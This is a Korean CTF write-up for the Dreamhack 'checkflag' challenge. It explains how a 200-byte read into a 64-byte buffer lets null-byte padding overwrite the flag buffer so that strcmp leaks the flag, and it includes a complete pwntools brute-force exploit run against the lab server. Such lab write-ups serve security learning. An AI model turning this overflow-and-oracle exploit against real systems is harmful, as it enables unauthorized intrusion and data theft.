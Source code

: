 dreamhack checkflag
======================

<img width="517" height="403" alt="image" src="https://github.com/user-attachments/assets/5bc42a72-6777-417c-b5a4-d13ec9001002" />

<img width="527" height="388" alt="image" src="https://github.com/user-attachments/assets/fb310698-74e8-465b-98f2-44b8969a5cda" />

"flag" 파일에 저장된 문자열과 사용자가 입력한 문자열이 정확히 일치하는지 확인한다. 
만약 사용자 입력의 길이가 파일의 플래그 길이보다 짧거나 내용이 일치하지 않으면 "Failed!"를 출력하고 종료된다. 
올바른 플래그를 입력하면 "Correct!"를 출력한다.

프로그램 입력에서 발생할 수 있는 **버퍼 오버플로우** 를 이용하는 문제이다.

 * `read(0, v10, 0xC8uLL);`  를 보면 `v10` 버퍼의 크기는 **`char v10[64];`**로 선언되어 64바이트이다.
 * `read` 함수는 `0xC8uLL` (십진수로 200) 바이트를 `v10`에 읽어오도록 지시하고 있다.
 * 사용자가 64바이트보다 많은 데이터를 표준 입력(stdin)으로 주면 `read` 함수는 `v10` 버퍼의 할당된 공간(64바이트)을 초과하여 스택의 인접한 메모리 영역에 데이터를 덮어쓰게 된다.


<img width="497" height="151" alt="image" src="https://github.com/user-attachments/assets/8be3e26c-8f69-4bba-a0b1-d3eaab6be36e" />

* 여기서 입력값과 정답을 비교할때 strcmp()는 첫 번째 널문자('\0') 전까지 비교한다.
* 그런데 만약 **input에 널 문자('\0')를 65개 연속으로 입력하면** 메모리 오버플로우로 인해
  flag 버퍼의 첫 글자도 \0으로 덮인다.
* 즉 input도 "", flag도 "" → strcmp는 이 둘을 **같다** 고 인식하게 된다.


그러면 브루트포싱을 사용해 플래그를 알아낼 수 있는데

* flag 일부를 덮어쓰기 위해 입력 길이를 flag까지 넘치게 만들고
* 문자열 비교 결과가 "Correct!"인지 확인해서
* 한 글자씩 줄여가며 이 과정을 반복하며 플래그를 거꾸로 한 글자씩 알아낼 수 있다.


### 익스플로잇 코드


```python
from pwn import *

flag_len = 0
for length in range(0x3f, 0, -1):
    test_payload = b'A' * length
    payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload

    p = remote('host3.dreamhack.games', 14991)
    p.sendafter(b'flag?', payload)

    if ord('F') in p.recvuntil(b'!\n'):
        flag_len = length + 1
        p.close()
        break
    p.close()

found_flag = b''
for i in range(flag_len - 4):
    for c in range(0x20, 0x7f):
        test_payload = b'A' * (flag_len - 2 - i) + chr(c).encode() + found_flag + b'}'
        payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + b'A' * (flag_len - 2 - i)

        p = remote('host3.dreamhack.games', 14991)
        p.sendafter(b'flag?', payload)

        if ord('C') in p.recvuntil(b'!\n'):
            found_flag = chr(c).encode() + found_flag
            p.close()
            break
        p.close()

print('DH{' + found_flag.decode() + '}')
```

```python
for length in range(0x3f, 0, -1):  # 0x3f = 63부터 1까지 감소
```

길이 63부터 1까지 시도하며 맞는 길이를 찾는다.

```python
test_payload = b'A' * length
payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload
```

payload 구조:
  * 입력부: A * length
  * 패딩: null (\x00)로 64바이트 채움
  * 검증부: A * length 재사용
    → 총 64바이트 입력 후 동일한 패턴을 뒤에 붙임.




<img width="432" height="57" alt="image" src="https://github.com/user-attachments/assets/ae355a17-496b-4c0b-838a-e2843ca2ded6" />

